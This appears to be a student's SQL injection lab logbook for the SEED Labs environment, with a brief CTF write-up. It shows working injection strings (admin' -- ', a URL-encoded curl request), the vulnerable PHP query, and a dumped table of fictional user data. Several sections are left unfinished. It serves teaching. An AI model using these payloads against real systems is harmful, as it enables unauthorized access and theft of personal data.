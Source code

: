 ## Week 8 - SQL INJECTION ATTACK LAB

### Task 1  - Get familiar with SQL statements

Following the lab guide, first we followed the rules of setting up an lab environment with docker commands. 
After getting the container id, we were able to run mysql querie to obtain information about the credential tables by using the following sql command: 

```
select * from credential;

OR, if we wanted only Alice information: 

select * from credential where name = "Alice"; 

```
![Terminal print task1](/images/Logbook%208%20images/task1.11.png)


## Task 2.1 - SQL Injection Attack from webpage

This task consists in a typical SQL injection attack, in order to authenticate as an admin, we used the username admin' -- '

So being, we are able to bypass the password validation, since the the original querie will be modified to this one:

```
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= 'admin' -- ' and Password='$hashed_pwd'

```

As you can see, the password field will be commented by the '--' which allows us to only authenticate using the username field 


![Terminal print task2.1](/images/Logbook%208%20images/task_2.1.png)

![Terminal print task2.1](/images/Logbook%208%20images/task2.1.1.png)



## Task 2.2 - SQL Injection Attack from command line

We executed the following querie, according to the substitution char replacement rules as shown on the lab guide

```
curl 'www.seed-server.com/unsafe_home.php?username=admin%27%3B%23&Password=11'
```

We were able to get acess to the html/css code of the website as shown below

```

<!--
SEED Lab: SQL Injection Education Web plateform
Author: Kailiang Ying
Email: kying@syr.edu
-->

<!--
SEED Lab: SQL Injection Education Web plateform
Enhancement Version 1
Date: 12th April 2018
Developer: Kuber Kohli

Update: Implemented the new bootsrap design. Implemented a new Navbar at the top with two menu options for Home and edit profile, with a button to
logout. The profile details fetched will be displayed using the table class of bootstrap with a dark table head theme.

NOTE: please note that the navbar items should appear only for users and the page with error login message should not have any of these items at
all. Therefore the navbar tag starts before the php tag but it end within the php script adding items as required.
-->

<!DOCTYPE html>
<html lang="en">
<head>
  <!-- Required meta tags -->
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

  <!-- Bootstrap CSS -->
  <link rel="stylesheet" href="css/bootstrap.min.css">
  <link href="css/style_home.css" type="text/css" rel="stylesheet">

  <!-- Browser Tab title -->
  <title>SQLi Lab</title>
</head>
<body>
  <nav class="navbar fixed-top navbar-expand-lg navbar-light" style="background-color: #3EA055;">
    <div class="collapse navbar-collapse" id="navbarTogglerDemo01">
      <a class="navbar-brand" href="unsafe_home.php" ><img src="seed_logo.png" style="height: 40px; width: 200px;" alt="SEEDLabs"></a>

      <ul class='navbar-nav mr-auto mt-2 mt-lg-0' style='padding-left: 30px;'><li class='nav-item active'><a class='nav-link' href='unsafe_home.php'>Home <span class='sr-only'>(current)</span></a></li><li class='nav-item'><a class='nav-link' href='unsafe_edit_frontend.php'>Edit Profile</a></li></ul><button onclick='logout()' type='button' id='logoffBtn' class='nav-link my-2 my-lg-0'>Logout</button></div></nav><div class='container'><br><h1 class='text-center'><b> User Details </b></h1><hr><br><table class='table table-striped table-bordered'><thead class='thead-dark'><tr><th scope='col'>Username</th><th scope='col'>EId</th><th scope='col'>Salary</th><th scope='col'>Birthday</th><th scope='col'>SSN</th><th scope='col'>Nickname</th><th scope='col'>Email</th><th scope='col'>Address</th><th scope='col'>Ph. Number</th></tr></thead><tbody><tr><th scope='row'> Alice</th><td>10000</td><td>20000</td><td>9/20</td><td>10211002</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Boby</th><td>20000</td><td>30000</td><td>4/20</td><td>10213352</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ryan</th><td>30000</td><td>50000</td><td>4/10</td><td>98993524</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Samy</th><td>40000</td><td>90000</td><td>1/11</td><td>32193525</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ted</th><td>50000</td><td>110000</td><td>11/3</td><td>32111111</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Admin</th><td>99999</td><td>400000</td><td>3/5</td><td>43254314</td><td></td><td></td><td></td><td></td></tr></tbody></table>      <br><br>
      <div class="text-center">
        <p>
          Copyright &copy; SEED LABs
        </p>
      </div>
    </div>
    <script type="text/javascript">
    function logout(){
      location.href = "logoff.php";
    }
    </script>
  </body>
  </html>

  ```

## Task 2.3 - Append a new SQL statement 

For this task, we need to try to run two SQL statements by exploiting the vulnerabilities in the previous tasks. we can try to login as admin and add another user in the same input by trying the following:


![Terminal print task2.3](/images/Logbook%208%20images/task2.3errorsql.png)

We are not able to do it this way, due to this sql statement error.

A few hours later, right when we were this close of jumping into a cliff, we inspected the source code of the website we came across this code:

```
// create a connection
$conn = getDB();
// Sql query to authenticate the user
$sql = "SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password
FROM credential
WHERE name= '$input_uname' and Password='$hashed_pwd'";
if (!$result = $conn->query($sql)) {
  echo "</div>";
  echo "</nav>";
  echo "<div class='container text-center'>";
  die('There was an error running the query [' . $conn->error . ']\n');
  echo "</div>";
}

```

We noticed that the bright mind who wrote the website, used the query() function, and we found that its not possible to use multiple queries with a querie() function, it would be necessary to use the multi_querie() function instead.

Check it out here: https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php



## Task 3.1 -  SQL Injection Attack on UPDATE Statement - Update Salary

Here, we used the same username way as used on the 2.1 exercise, instead we used Alice' -- ' to gain acess to Alice's account, 
then we went to "Edit profile", and typed on the nickname field the current info: 




## Task 3.2 - 






# CTF Write-UP 

## Challenge 1 

Entering the easyvault website, with a login page, we were told that we need to log in as a admin username 

So we used the same method as described on the seed labs, using the following information: 

```
username: admin' -- 
password: c  (can use any character)
```

Once again, by using this username we are commenting the password part of the querie with the  -- symbols.
We are requested still to enter something on the password field due to frontend requeriments but it wont be subjected to any validation. 


## Challenge 2 


